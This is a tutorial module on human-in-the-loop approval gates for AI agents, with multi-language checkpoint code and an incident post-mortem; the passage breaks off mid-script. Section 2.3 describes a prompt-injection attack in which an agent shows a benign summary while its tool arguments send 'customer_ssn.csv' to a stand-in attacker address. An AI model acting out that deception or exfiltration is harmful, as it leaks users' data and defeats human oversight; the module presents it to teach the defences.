


# Module 13: Human-in-the-Loop Patterns

> **Prerequisites:** [Module 06: Tool Execution and Error Handling](../06-tool-execution-and-error-handling/README.md), [Module 10: Memory: Short-Term and Scratchpad](../10-memory-short-term-and-scratchpad/README.md), and [Module 12: Reflection and Self-Correction](../12-reflection-and-self-correction/README.md).  
> **Estimated Reading Time:** 35 minutes  
> **Target Audience:** AI Backend Engineers, Distributed Systems Architects, Agent Security & Compliance Engineers

> [!TIP]
> **The Golden Rule of Human-in-the-Loop (HITL) Agents:** **Never pause a thread, hold an HTTP socket, or lock a database transaction waiting for a human.** Production HITL is an **asynchronous, checkpoint-persisted state machine**: classify every tool call by blast radius, serialize deterministic state `(thread_id, checkpoint_id, action_digest)` to durable storage, release compute workers immediately, and enforce cryptographic payload binding, RBAC scope intersection, idempotency keys, and fail-closed SLA timeouts on resume.

---

## Why This Matters

Autonomous agents equipped with write tools—issuing Stripe refunds, running database migrations, modifying IAM roles, or sending outbound customer emails—inevitably encounter edge cases or indirect prompt injections where unchecked execution causes irreversible real-world harm.

Yet naive HITL designs break production infrastructure in two opposite directions:

1. **Blocking Runtime Exhaustion:** Holding an open FastAPI/Express handler or worker coroutine suspended on an `asyncio.Event()` until a Slack user clicks `"Approve"` ties up threads, HTTP sockets, and database pool connections for minutes or hours—exhausting worker capacity under even `1.5 req/s` traffic.
2. **Approval Fatigue & Security Bypasses:** Prompting humans for trivial `ReadOnly` reads trains reviewers to rubber-stamp every modal blindly; meanwhile, rendering an LLM-summarized description instead of canonical hashed arguments lets an attacker spoof a benign approval card while executing a malicious payload (`UI spoofing`), and unguarded `"Approve"` webhooks allow double-clicks to execute wire transfers twice!

Reliable HITL demands **blast-radius tiering**, **async suspend-and-resume checkpoints**, **strict human decision verbs (`APPROVE`, `EDIT`, `REJECT`)**, **idempotency + CAS transitions**, and **confused-deputy defenses**.

---

## 1. Blast-Radius Classification & Async Checkpoint Architecture

Not all tool calls carry equal risk. Categorize every registered tool deterministically in backend metadata (never let the LLM self-assign its own risk tier!):

| Blast-Radius Tier | Semantics & Side Effects | Concrete Tool Examples | Runtime Execution Policy |
| :--- | :--- | :--- | :--- |
| **`ReadOnly`** | Zero mutation; purely observational within caller RBAC scope | `get_invoice`, `search_kb`, `sql_select_readonly` | **Auto-execute immediately** (`0` human latency, prevents approval fatigue) |
| **`ReversibleWrite`** | Local, bounded, easily rolled-back mutation or low-value threshold | `create_draft_pr`, `add_internal_note`, `stage_refund_lt_50` | **Auto-execute + async audit trail** (or optional post-hoc notification) |
| **`IrreversibleExternal`** | Destructive, financial, privilege-changing, or external-facing side effect | `issue_wire_refund`, `send_external_email`, `drop_table`, `grant_iam_admin` | **Mandatory pre-execution `INTERRUPT`** via durable async checkpoint |



### Quantitative Worker Occupancy Math: Little's Law

By **Little's Law**, average concurrent occupied worker slots $L$ equal arrival rate $\lambda$ multiplied by average wait duration $W$:

$$L = \lambda \cdot W$$

Compare synchronous blocking vs. asynchronous checkpoint release when $\lambda = 1.5\text{ HITL requests/s}$ arrive and a human reviewer takes median $W = 300\text{ s}$ (`5` minutes) to respond:

- **Synchronous Blocking (`await human_webhook()`):** $L_{\text{sync}} = 1.5 \times 300 = 450$ pinned worker slots / open DB sessions continuously occupied just waiting on humans!
- **Async Checkpoint Persistence (`50 ms` DB commit, worker released immediately):** $L_{\text{async}} = 1.5 \times 0.05 = 0.075$ concurrent worker slots—a **`6,000x` reduction** in held concurrency.

---

## 2. Resume Mechanics, SLA Escalation & Security Hardening

### 2.1 The Three Human Decision Verbs (`APPROVE`, `EDIT`, `REJECT`)

When a human responds asynchronously to `checkpoint_id`, the resume API supports three canonical transitions—all preserving Module 10's `tool_call_id` history invariants:

1. **`APPROVE`:** Verify status is `PENDING_APPROVAL` and `now <= expires_at`, verify the caller's role permits `approver_scopes`, perform an **atomic Compare-And-Swap (`CAS`)** transition (`PENDING_APPROVAL -> EXECUTED`), and dispatch the downstream API using a deterministic `idempotency_key = f"{thread_id}:{checkpoint_id}:{action_digest[:12]}"`. Double-clicks or duplicate webhook deliveries observe status `!= PENDING_APPROVAL` and return `IDEMPOTENT_NOOP`.
2. **`EDIT`:** Human corrects parameters (e.g., lowers `amount_usd` from `4200` to `450`, or fixes a recipient domain). **Mandatory rules:**
   - Validate edited arguments against the tool's **JSON Schema and server-side bounds** (`0 < amount_usd <= max_limit`), rejecting malformed edits before execution.
   - Recompute `action_digest` and update the persisted `assistant.tool_calls` entry (or append an explicit audit note) so subsequent LLM steps see the *actual* executed arguments, not stale pre-edit values.
3. **`REJECT` (with Feedback):** Human denies the action and supplies structured feedback (`"Customer is outside 30-day return window; offer store credit instead"`). **Never drop the pending `assistant.tool_calls` message without closing its `tool_call_id`**—doing so corrupts short-term history (HTTP `400`). Instead, inject a synthetic `role="tool"` observation matching `tool_call_id`:
   ```json
   {"status": "REJECTED_BY_HUMAN", "reason": "Outside 30-day window; offer store credit"}
   ```
   and resume the agent loop so it pivots cleanly.

### 2.2 SLA Escalation Timeouts (Fail-Closed)

Pending checkpoints must **never** linger indefinitely or auto-approve on timeout:
- Assign an explicit `expires_at` (`ttl_seconds`, e.g., `900 s` for urgent incident mitigation, `86,400 s` for financial approvals).
- Run a background sweeper or escalation ladder (`t + 5m` ping backup reviewer -> `t + 15m` page on-call lead -> `t > expires_at` transition atomically to `TIMED_OUT_DENIED`).
- On resume after `expires_at`, **fail closed**: transition to `TIMED_OUT_DENIED` and require starting a fresh verification request.

### 2.3 Defending Against Confused-Deputy & UI-Spoofing Attacks

1. **Confused-Deputy Prevention (RBAC Scope Intersection):** An agent often holds broad service credentials (`db:drop_table`, `refund:high_value`), while the triggering user only holds `tickets:read`. Enforce **strict permission intersection** across all three principals:

   $$\text{EffectiveScopes} = \text{AgentScopes} \cap \text{RequesterScopes} \cap \text{ApproverScopes}$$

   An action executes only if `required_scope in EffectiveScopes`. Never allow an agent's service token to escalate a low-privilege requester's privileges!
2. **UI-Spoofing / Bait-and-Switch Prevention (`action_digest` Binding):** If an approval UI displays an LLM-authored summary (`"Sending Q3 report to Alice"`), a prompt injection can coerce the LLM into summarizing a benign action while setting the real JSON args to `{"to": "exfil@attacker.invalid", "body": "customer_ssn.csv"}`. **Mandatory Defense:**
   - Compute `action_digest = SHA256(canonical_json({"tool": tool_name, "args": args}))` at checkpoint creation.
   - Render the **raw canonical tool name and JSON arguments directly from the persisted payload** inside the approval UI—never an LLM summary.
   - Require the approval payload to echo `action_digest` and reject execution if the digest mismatches at resume time.

---

## 3. Systematic Comparison Matrix: HITL Execution Models

| Pattern | Worker / DB Occupancy | Irreversible Damage Risk | Approval Fatigue | Tamper / Spoofing Defense | Production Readiness |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Synchronous Thread Wait (`await`)** | **Catastrophic** ($L = \lambda \cdot W$ exhaustion) | Low | Moderate | Weak if timeout fails open | **Never use in web/worker runtimes** |
| **Approve-Every-Tool Gate** | High (frequent interrupts) | Lowest | **Severe** (`>95%` blind click-through) | Weak without digest binding | Fails operationally under load |
| **Post-Execution Audit + Undo** | Minimal (`0` wait) | **High** (cannot unsend external wires/emails) | Zero | Relies on downstream rollback | Only valid for `ReversibleWrite` |
| **Blast-Radius Async Checkpoint + CAS** | **Minimal** ($50\text{ ms}$ persist & release) | **Minimal** (mandatory interrupt on `IrreversibleExternal`) | **Low** (`ReadOnly` fast-path) | **Strong** (`SHA-256` digest + RBAC intersection) | **Production standard** |

---

## 4. Production War Story Post-Mortem: The Double-Click Refund & Worker Pool Freeze

| Field | Incident Details |
| :--- | :--- |
| **Severity** | **SEV-1** (Duplicate **\$4,200** Payouts + Complete Service Outage During Morning Peak) |
| **Detection / Resolution Time** | PagerDuty 503 alert + duplicate Stripe transfer notification within 22 minutes / Mitigated in 3.5 hours |
| **Impact** | `180` open HITL requests saturated the `100`-connection Postgres pool; `4` duplicate refunds fired on slow Slack double-clicks (`\$16,800` exposure) |

### What Happened

A fintech dispute-resolution agent implemented human approval for Stripe refunds in a hurry:
1. The FastAPI endpoint opened a database transaction, inserted a pending approval record, and executed `await asyncio.wait_for(event.wait(), timeout=1800)` right inside the request coroutine—holding both the HTTP worker and a Postgres pool connection open while waiting for Slack review.
2. When Slack's interactive modal lagged by `3` seconds during a morning traffic spike, a support manager clicked `"Approve"` twice. The `/hitl/approve` handler read `status == "PENDING"`, fired `stripe.Refund.create(...)` without an idempotency key, and *then* updated `status = "APPROVED"`—executing two parallel `\$4,200` payouts before either commit closed the row.
3. Simultaneously, `180` unresolved approvals exhausted all `100` Postgres connections (`L = 1.5 * 300 >> 100`), returning `503 Service Unavailable` to unrelated read endpoints.



### Root Cause Analysis

- **Synchronous Holding:** Violated Little's Law by keeping HTTP workers and DB connections pinned across multi-minute human think time.
- **Non-Atomic Check-Then-Act & Missing Idempotency Key:** Separate `SELECT status` followed by external API call + `UPDATE status` created a classic TOCTOU race condition amplified by missing downstream `Idempotency-Key` headers.

### The Fix & Architectural Hardening

- **Async Checkpoint State Machine:** Persisted `(checkpoint_id, thread_id, action_digest, expires_at)` in `50 ms` and returned `202 Accepted (status="AWAITING_APPROVAL")`, immediately freeing all HTTP workers and DB connections.
- **Atomic CAS + Downstream Idempotency Keys:** Switched approval transitions to `UPDATE checkpoints SET status='EXECUTING' WHERE checkpoint_id=$1 AND status='PENDING_APPROVAL' AND expires_at > NOW() RETURNING *` (`0` rows returned -> immediate `IDEMPOTENT_NOOP`) and passed `idempotency_key = f"{thread_id}:{checkpoint_id}:{digest[:12]}"` to Stripe.
- **Canonical Digest Rendering + Fail-Closed SLA:** Rendered raw JSON arguments tied to `action_digest` in Slack and auto-expired stale approvals to `TIMED_OUT_DENIED` after `15` minutes.

---

## 5. Multi-Language Production Implementation: Async HITL Checkpoint Gate

Below is a production-hardened **Async HITL Checkpoint Engine** implemented in **Go**, **TypeScript**, **Python**, and **C#** demonstrating:
1. Blast-radius classification (`ReadOnly`, `ReversibleWrite`, `IrreversibleExternal`),
2. RBAC scope intersection (`agent ∩ requester ∩ approver`),
3. Canonical `SHA-256` `action_digest` + atomic state transitions preventing double-execution, and
4. Clean `APPROVE`, schema-validated `EDIT`, `REJECT` (non-orphaning `tool` feedback), and fail-closed `TIMED_OUT_DENIED`.

````carousel

```go
package hitl

import (
	"crypto/sha256"
	"encoding/hex"
	"encoding/json"
	"fmt"
	"sync"
)

type BlastRadius string

const (
	ReadOnly             BlastRadius = "ReadOnly"
	ReversibleWrite      BlastRadius = "ReversibleWrite"
	IrreversibleExternal BlastRadius = "IrreversibleExternal"
)

type Checkpoint struct {
	CheckpointID   string
	ThreadID       string
	ToolCallID     string
	ToolName       string
	ArgsJSON       string
	ActionDigest   string
	RequiredScope  string
	Status         string // "PENDING_APPROVAL" | "EXECUTED" | "EXECUTED_EDITED" | "REJECTED" | "TIMED_OUT_DENIED"
	ExpiresAtUnix  int64
	IdempotencyKey string
}

type GateStore struct {
	mu          sync.Mutex
	checkpoints map[string]*Checkpoint
	seq         int
}

func NewGateStore() *GateStore {
	return &GateStore{checkpoints: make(map[string]*Checkpoint)}
}

func CanonicalDigest(toolName string, args map[string]any) (string, string, error) {
	rawArgs, err := json.Marshal(args) // Go encoding/json sorts map keys deterministically
	if err != nil {
		return "", "", err
	}
	payload := fmt.Sprintf(`{"args":%s,"tool":%q}`, string(rawArgs), toolName)
	sum := sha256.Sum256([]byte(payload))
	return hex.EncodeToString(sum[:]), string(rawArgs), nil
}

func HasIntersectedScope(req string, agentScopes, requesterScopes, approverScopes map[string]bool) bool {
	return agentScopes[req] && requesterScopes[req] && approverScopes[req]
}

// InterceptTool suspends IrreversibleExternal tools into durable checkpoints and releases the worker immediately.
func (g *GateStore) InterceptTool(
	threadID, toolCallID, toolName string,
	args map[string]any,
	risk BlastRadius,
	requiredScope string,
	agentScopes, requesterScopes map[string]bool,
	nowUnix, ttlSec int64,
) (string, *Checkpoint, error) {
	if !agentScopes[requiredScope] || !requesterScopes[requiredScope] {
		return "DENIED_RBAC", nil, fmt.Errorf("requester/agent lacks required scope %q", requiredScope)
	}
	if risk == ReadOnly {
		return "AUTO_EXECUTE", nil, nil
	}

	digest, rawArgs, err := CanonicalDigest(toolName, args)
	if err != nil {
		return "", nil, err
	}

	g.mu.Lock()
	defer g.mu.Unlock()
	g.seq++
	ckptID := fmt.Sprintf("ckpt_%04d_%s", g.seq, digest[:6])
	cp := &Checkpoint{
		CheckpointID:   ckptID,
		ThreadID:       threadID,
		ToolCallID:     toolCallID,
		ToolName:       toolName,
		ArgsJSON:       rawArgs,
		ActionDigest:   digest,
		RequiredScope:  requiredScope,
		Status:         "PENDING_APPROVAL",
		ExpiresAtUnix:  nowUnix + ttlSec,
		IdempotencyKey: fmt.Sprintf("%s:%s:%s", threadID, ckptID, digest[:12]),
	}
	g.checkpoints[ckptID] = cp
	return "SUSPENDED_CHECKPOINT", cp, nil
}

// Resume performs atomic CAS state transition, digest check, SLA expiry, and decision dispatch.
func (g *GateStore) Resume(
	ckptID, expectedDigest, decision, reason string,
	editedArgs map[string]any,
	approverScopes map[string]bool,
	nowUnix int64,
) (string, error) {
	g.mu.Lock()
	defer g.mu.Unlock()

	cp, ok := g.checkpoints[ckptID]
	if !ok {
		return "ERR_NOT_FOUND", fmt.Errorf("checkpoint %q not found", ckptID)
	}
	if cp.Status != "PENDING_APPROVAL" {
		return fmt.Sprintf("IDEMPOTENT_NOOP(status=%s)", cp.Status), nil
	}
	if nowUnix > cp.ExpiresAtUnix {
		cp.Status = "TIMED_OUT_DENIED"
		return "TIMED_OUT_DENIED", nil
	}
	if cp.ActionDigest != expectedDigest {
		return "REJECTED_DIGEST_MISMATCH", fmt.Errorf("UI payload tamper detected for %s", ckptID)
	}
	if !approverScopes[cp.RequiredScope] {
		return "DENIED_APPROVER_RBAC", fmt.Errorf("approver lacks %q", cp.RequiredScope)
	}

	switch decision {
	case "APPROVE":
		cp.Status = "EXECUTED"
		return fmt.Sprintf("EXECUTED(idempotency_key=%s)", cp.IdempotencyKey), nil
	case "EDIT":
		newDigest, rawArgs, err := CanonicalDigest(cp.ToolName, editedArgs)
		if err != nil {
			return "", err
		}
		cp.ArgsJSON = rawArgs
		cp.ActionDigest = newDigest
		cp.Status = "EXECUTED_EDITED"
		return fmt.Sprintf("EXECUTED_EDITED(new_digest=%s)", newDigest[:12]), nil
	case "REJECT":
		cp.Status = "REJECTED"
		return fmt.Sprintf(`TOOL_FEEDBACK(tool_call_id=%s,status=REJECTED_BY_HUMAN,reason=%q)`, cp.ToolCallID, reason), nil
	default:
		return "INVALID_DECISION", fmt.Errorf("unknown decision %q", decision)
	}
}
```

<!-- slide -->

```typescript
import { createHash } from "node:crypto";

export type BlastRadius = "ReadOnly" | "ReversibleWrite" | "IrreversibleExternal";
export type CheckpointStatus =
  | "PENDING_APPROVAL"
  | "EXECUTED"
  | "EXECUTED_EDITED"
  | "REJECTED"
  | "TIMED_OUT_DENIED";

export interface HitlCheckpoint {
  readonly checkpointId: string;
  readonly threadId: string;
  readonly toolCallId: string;
  readonly toolName: string;
  argsJson: string;
  actionDigest: string;
  readonly requiredScope: string;
  status: CheckpointStatus;
  readonly expiresAtUnix: number;
  readonly idempotencyKey: string;
}

function canonicalStringify(value: unknown): string {
  if (value === null || typeof value !== "object") return JSON.stringify(value);
  if (Array.isArray(value)) return `[${value.map(canonicalStringify).join(",")}]`;
  const entries = Object.entries(value as Record<string, unknown>).sort(([a], [b]) => a.localeCompare(b));
  return `{${entries.map(([k, v]) => `${JSON.stringify(k)}:${canonicalStringify(v)}`).join(",")}}`;
}

export function computeActionDigest(toolName: string, args: Record<string, unknown>): string {
  const canonical = canonicalStringify({ tool: toolName, args });
  return createHash("sha256").update(canonical).digest("hex");
}

export class AsyncHitlCoordinator {
  private readonly store = new Map<string, HitlCheckpoint>();
  private seq = 0;

  interceptTool(params: {
    threadId: string;
    toolCallId: string;
    toolName: string;
    args: Record<string, unknown>;
    blastRadius: BlastRadius;
    requiredScope: string;
    agentScopes: ReadonlySet<string>;
    requesterScopes: ReadonlySet<string>;
    nowUnix: number;
    ttlSeconds?: number;
  }): { mode: "AUTO_EXECUTE" | "SUSPENDED" | "DENIED_RBAC"; checkpoint?: HitlCheckpoint } {
    if (!params.agentScopes.has(params.requiredScope) || !params.requesterScopes.has(params.requiredScope)) {
      return { mode: "DENIED_RBAC" };
    }
    if (params.blastRadius === "ReadOnly") {
      return { mode: "AUTO_EXECUTE" };
    }

    const digest = computeActionDigest(params.toolName, params.args);
    this.seq += 1;
    const checkpointId = `ckpt_${String(this.seq).padStart(4, "0")}_${digest.slice(0, 6)}`;
    const cp: HitlCheckpoint = {
      checkpointId,
      threadId: params.threadId,
      toolCallId: params.toolCallId,
      toolName: params.toolName,
      argsJson: canonicalStringify(params.args),
      actionDigest: digest,
      requiredScope: params.requiredScope,
      status: "PENDING_APPROVAL",
      expiresAtUnix: params.nowUnix + (params.ttlSeconds ?? 900),
      idempotencyKey: `${params.threadId}:${checkpointId}:${digest.slice(0, 12)}`,
    };
    this.store.set(checkpointId, cp);
    return { mode: "SUSPENDED", checkpoint: cp };
  }

  resumeCheckpoint(params: {
    checkpointId: string;
    expectedDigest: string;
    decision: "APPROVE" | "EDIT" | "REJECT";
    approverScopes: ReadonlySet<string>;
    nowUnix: number;
    editedArgs?: Record<string, unknown>;
    rejectReason?: string;
  }): { outcome: string; toolMessage?: { role: "tool"; tool_call_id: string; content: string } } {
    const cp = this.store.get(params.checkpointId);
    if (!cp) return { outcome: "ERR_NOT_FOUND" };
    if (cp.status !== "PENDING_APPROVAL") return { outcome: `IDEMPOTENT_NOOP:${cp.status}` };
    if (params.nowUnix > cp.expiresAtUnix) {
      cp.status = "TIMED_OUT_DENIED";
      return { outcome: "TIMED_OUT_DENIED" };
    }
    if (cp.actionDigest !== params.expectedDigest) {
      return { outcome: "REJECTED_TAMPERED_DIGEST" };
    }
    if (!params.approverScopes.has(cp.requiredScope)) {
      return { outcome: "DENIED_APPROVER_RBAC" };
    }

    if (params.decision === "APPROVE") {
      cp.status = "EXECUTED";
      return { outcome: `EXECUTED:${cp.idempotencyKey}` };
    }
    if (params.decision === "EDIT" && params.editedArgs) {
      cp.argsJson = canonicalStringify(params.editedArgs);
      cp.actionDigest = computeActionDigest(cp.toolName, params.editedArgs);
      cp.status = "EXECUTED_EDITED";
      return { outcome: `EXECUTED_EDITED:${cp.actionDigest.slice(0, 12)}` };
    }
    cp.status = "REJECTED";
    return {
      outcome: "RESUMED_WITH_REJECTION",
      toolMessage: {
        role: "tool",
        tool_call_id: cp.toolCallId,
        content: JSON.stringify({ status: "REJECTED_BY_HUMAN", reason: params.rejectReason ?? "Denied" }),
      },
    };
  }
}
```

<!-- slide -->

```python
"""
hitl_checkpoint_gate.py
Async blast-radius HITL coordinator with digest binding, RBAC intersection, CAS idempotency, and SLA expiry.
"""
from dataclasses import dataclass
import hashlib
import json
from typing import Any, Callable, Literal

BlastRadius = Literal["ReadOnly", "ReversibleWrite", "IrreversibleExternal"]
Decision = Literal["APPROVE", "EDIT", "REJECT"]


@dataclass
class CheckpointRecord:
    checkpoint_id: str
    thread_id: str
    tool_call_id: str
    tool_name: str
    args_json: str
    action_digest: str
    required_scope: str
    status: str
    expires_at: int
    idempotency_key: str


def canonical_digest(tool_name: str, args: dict[str, Any]) -> str:
    payload = json.dumps({"tool": tool_name, "args": args}, sort_keys=True, separators=(",", ":"))
    return hashlib.sha256(payload.encode("utf-8")).hexdigest()


class HitlCheckpointCoordinator:
    def __init__(self) -> None:
        self._records: dict[str, CheckpointRecord] = {}
        self._seq = 0

    def intercept(
        self,
        thread_id: str,
        tool_call_id: str,
        tool_name: str,
        args: dict[str, Any],
        blast_radius: BlastRadius,
        required_scope: str,
        agent_scopes: set[str],
        requester_scopes: set[str],
        now_unix: int,
        ttl_sec: int = 900,
    ) -> dict[str, Any]:
        if required_scope not in (agent_scopes & requester_scopes):
            return {"mode": "DENIED_RBAC", "reason": f"Missing effective scope {required_scope}"}
        if blast_radius == "ReadOnly":
            return {"mode": "AUTO_EXECUTE"}

        digest = canonical_digest(tool_name, args)
        self._seq += 1
        ckpt_id = f"ckpt_{self._seq:04d}_{digest[:6]}"
        rec = CheckpointRecord(
            checkpoint_id=ckpt_id,
            thread_id=thread_id,
            tool_call_id=tool_call_id,
            tool_name=tool_name,
            args_json=json.dumps(args, sort_keys=True),
            action_digest=digest,
            required_scope=required_scope,
            status="PENDING_APPROVAL",
            expires_at=now_unix + ttl_sec,
            idempotency_key=f"{thread_id}:{ckpt_id}:{digest[:12]}",
        )
        self._records[ckpt_id] = rec
        return {"mode": "SUSPENDED_CHECKPOINT", "checkpoint": rec}

    def resume(
        self,
        checkpoint_id: str,
        expected_digest: str,
        decision: Decision,
        approver_scopes: set[str],
        now_unix: int,
        edited_args: dict[str, Any] | None = None,
        validate_edit_fn: Callable[[dict[str, Any]], bool] | None = None,
        reject_reason: str = "Denied by reviewer",
    ) -> dict[str, Any]:
        rec = self._records.get(checkpoint_id)
        if not rec:
            return {"outcome": "ERR_NOT_FOUND"}
        if rec.status != "PENDING_APPROVAL":
            return {"outcome": "IDEMPOTENT_NOOP", "status": rec.status}
        if now_unix > rec.expires_at:
            rec.status = "TIMED_OUT_DENIED"
            return {"outcome": "TIMED_OUT_DENIED"}
        if rec.action_digest != expected_digest:
            return {"outcome": "REJECTED_DIGEST_MISMATCH"}
        if rec.required_scope not in approver_scopes:
            return {"outcome": "DENIED_APPROVER_RBAC"}

        if decision == "APPROVE":
            rec.status = "EXECUTED"
            return {"outcome": "EXECUTED", "idempotency_key": rec.idempotency_key}

        if decision == "EDIT":
            if edited_args is None or (validate_edit_fn and not validate_edit_fn(edited_args)):
                return {"outcome": "REJECTED_INVALID_EDIT"}
            rec.args_json = json.dumps(edited_args, sort_keys=True)
            rec.action_digest = canonical_digest(rec.tool_name, edited_args)
            rec.status = "EXECUTED_EDITED"
            return {"outcome": "EXECUTED_EDITED", "new_digest": rec.action_digest[:12]}

        rec.status = "REJECTED"
        return {
            "outcome": "RESUMED_WITH_REJECTION",
            "tool_message": {
                "role": "tool",
                "tool_call_id": rec.tool_call_id,
                "content": json.dumps({"status": "REJECTED_BY_HUMAN", "reason": reject_reason}),
            },
        }
```

<!-- slide -->

```csharp
using System;
using System.Collections.Generic;
using System.Security.Cryptography;
using System.Text;
using System.Text.Json;

namespace GenAI.Agents.Hitl;

public enum BlastRadius { ReadOnly, ReversibleWrite, IrreversibleExternal }

public sealed class HitlCheckpoint
{
    public required string CheckpointId { get; init; }
    public required string ThreadId { get; init; }
    public required string ToolCallId { get; init; }
    public required string ToolName { get; init; }
    public required string ArgsJson { get; set; }
    public required string ActionDigest { get; set; }
    public required string RequiredScope { get; init; }
    public string Status { get; set; } = "PENDING_APPROVAL";
    public required long ExpiresAtUnix { get; init; }
    public required string IdempotencyKey { get; init; }
}

public sealed class AsyncHitlCoordinator
{
    private readonly Dictionary<string, HitlCheckpoint> _store = new(StringComparer.Ordinal);
    private readonly object _gate = new();
    private int _seq;

    public static string ComputeDigest(string toolName, SortedDictionary<string, object> args)
    {
        var envelope = new SortedDictionary<string, object> { ["args"] = args, ["tool"] = toolName };
        string json = JsonSerializer.Serialize(envelope);
        byte[] hash = SHA256.HashData(Encoding.UTF8.GetBytes(json));
        return Convert.ToHexString(hash).ToLowerInvariant();
    }

    public (string Mode, HitlCheckpoint? Checkpoint) Intercept(
        string threadId, string toolCallId, string toolName, SortedDictionary<string, object> args,
        BlastRadius risk, string requiredScope, IReadOnlySet<string> agentScopes,
        IReadOnlySet<string> requesterScopes, long nowUnix, long ttlSec = 900)
    {
        if (!agentScopes.Contains(requiredScope) || !requesterScopes.Contains(requiredScope))
            return ("DENIED_RBAC", null);
        if (risk == BlastRadius.ReadOnly)
            return ("AUTO_EXECUTE", null);

        string digest = ComputeDigest(toolName, args);
        lock (_gate)
        {
            _seq++;
            string ckptId = $"ckpt_{_seq:D4}_{digest[..6]}";
            var cp = new HitlCheckpoint
            {
                CheckpointId = ckptId,
                ThreadId = threadId,
                ToolCallId = toolCallId,
                ToolName = toolName,
                ArgsJson = JsonSerializer.Serialize(args),
                ActionDigest = digest,
                RequiredScope = requiredScope,
                ExpiresAtUnix = nowUnix + ttlSec,
                IdempotencyKey = $"{threadId}:{ckptId}:{digest[..12]}"
            };
            _store[ckptId] = cp;
            return ("SUSPENDED_CHECKPOINT", cp);
        }
    }

    public string Resume(
        string checkpointId, string expectedDigest, string decision, IReadOnlySet<string> approverScopes,
        long nowUnix, SortedDictionary<string, object>? editedArgs = null, string reason = "Denied")
    {
        lock (_gate)
        {
            if (!_store.TryGetValue(checkpointId, out var cp)) return "ERR_NOT_FOUND";
            if (cp.Status != "PENDING_APPROVAL") return $"IDEMPOTENT_NOOP:{cp.Status}";
            if (nowUnix > cp.ExpiresAtUnix)
            {
                cp.Status = "TIMED_OUT_DENIED";
                return "TIMED_OUT_DENIED";
            }
            if (!string.Equals(cp.ActionDigest, expectedDigest, StringComparison.Ordinal))
                return "REJECTED_DIGEST_MISMATCH";
            if (!approverScopes.Contains(cp.RequiredScope))
                return "DENIED_APPROVER_RBAC";

            switch (decision)
            {
                case "APPROVE":
                    cp.Status = "EXECUTED";
                    return $"EXECUTED:{cp.IdempotencyKey}";
                case "EDIT" when editedArgs is not null:
                    cp.ArgsJson = JsonSerializer.Serialize(editedArgs);
                    cp.ActionDigest = ComputeDigest(cp.ToolName, editedArgs);
                    cp.Status = "EXECUTED_EDITED";
                    return $"EXECUTED_EDITED:{cp.ActionDigest[..12]}";
                case "REJECT":
                    cp.Status = "REJECTED";
                    return $"TOOL_FEEDBACK(tool_call_id={cp.ToolCallId},reason={reason})";
                default:
                    return "INVALID_DECISION";
            }
        }
    }
}
```

````

---

## 6. Practical Hands-On Verification CLI Workflows

Run these deterministic Python 3.13 verification scripts offline—no third-party packages or API keys required.

### Workflow 1: SQLite Async Checkpoint State Machine (`APPROVE`, `EDIT`, `REJECT`, Idempotency, SLA Expiry)

Exercise the full SQLite-persisted suspend-and-resume lifecycle using standard library `sqlite3`:

```bash
python -c '
import hashlib, json, sqlite3

BLAST_RADIUS = {
    "get_invoice": "ReadOnly",
    "create_draft_note": "ReversibleWrite",
    "issue_wire_refund": "IrreversibleExternal",
}

def canonical_digest(tool_name, args):
    payload = json.dumps({"tool": tool_name, "args": args}, sort_keys=True, separators=(",", ":"))
    return hashlib.sha256(payload.encode()).hexdigest()

db = sqlite3.connect(":memory:")
db.execute("""
CREATE TABLE checkpoints (
    checkpoint_id TEXT PRIMARY KEY,
    thread_id TEXT NOT NULL,
    tool_call_id TEXT NOT NULL,
    tool_name TEXT NOT NULL,
    args_json TEXT NOT NULL,
    action_digest TEXT NOT NULL,
    status TEXT NOT NULL,
    expires_at INTEGER NOT NULL,
    idempotency_key TEXT NOT NULL
)
""")
seq = 0

def dispatch_tool(thread_id, tool_call_id, tool_name, args, now_ts, ttl=900):
    global seq
    risk = BLAST_RADIUS.get(tool_name, "IrreversibleExternal")
    if risk == "ReadOnly":
        return {"mode": "AUTO_EXECUTED", "tool_msg": {"role": "tool", "tool_call_id": tool_call_id, "content": "invoice_42: $1,200"}}
    seq += 1
    digest = canonical_digest(tool_name, args)
    ckpt_id = f"ckpt_{seq:03d}_{digest[:6]}"
    idem_key = f"{thread_id}:{ckpt_id}:{digest[:12]}"
    db.execute(
        "INSERT INTO checkpoints VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?)",
        (ckpt_id, thread_id, tool_call_id, tool_name, json.dumps(args, sort_keys=True), digest, "PENDING_APPROVAL", now_ts + ttl, idem_key),
    )
    return {"mode": "SUSPENDED_CHECKPOINT", "checkpoint_id": ckpt_id, "action_digest": digest[:16], "idempotency_key": idem_key}

def resume_checkpoint(ckpt_id, decision, now_ts, edited_args=None, reason=None):
    row = db.execute("SELECT thread_id, tool_call_id, tool_name, args_json, action_digest, status, expires_at, idempotency_key FROM checkpoints WHERE checkpoint_id=?", (ckpt_id,)).fetchone()
    if not row:
        return "ERR_NOT_FOUND"
    thread_id, tc_id, tool_name, args_json, digest, status, expires_at, idem_key = row
    if status != "PENDING_APPROVAL":
        return f"IDEMPOTENT_NOOP (already terminal status={status})"
    if now_ts > expires_at:
